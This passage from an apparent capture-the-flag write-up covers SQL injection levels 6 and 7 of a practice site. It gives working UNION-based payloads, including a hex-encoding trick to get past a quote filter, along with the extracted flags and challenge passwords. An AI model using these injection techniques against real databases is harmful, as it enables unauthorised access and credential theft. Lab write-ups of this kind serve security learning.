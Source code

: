 ```python
' union select username, password,2,3,4 from the level6_users

```

We have to inject this query into another query, however, single-quoted mark cannot be used thus another method is hex conversion, thus the query becomes

```python
0 union select 1,0x27756e696f6e2073656c65637420757365726e616d652c2070617373776f72642c322c332c342066726f6d206c6576656c365f7573657273,3,4,5 from level6_users where status=1
```

```bash
Username:	admin
Email:	m0nsterk1ll
flag: 074113b268d87dea21cc839954dec932
password: shitcoins_are_hold
```

## Level 7

Target: Get the name of the user who posted the news about google. Table: level7_news column: autor

Restrictions: no comments, no substr, no substring, no ascii, no mid, no like

1. Inject the ' to check what the response will be like
2. Returns

```jsx
SELECT news.*,text.text,text.title FROM level7_news news, level7_texts text WHERE text.id = news.id AND (text.text LIKE '%' %' OR text.title LIKE '%' %')
```

3. Now we exploit the query as

```python
') union select null,null,null,autor from level7_news where ('%' = '
#gives error that the text.title is unknown
') union select null,null,null,autor from level7_news news, level7_texts text where ('%' = '
#gives the output as 
'''site_admin

press

TestUserforg00gle

apple'''
```

```python
flag = 970cecc0355ed85306588a1a01db4d80
password = or_so_i'm_told 
```

## Level 8
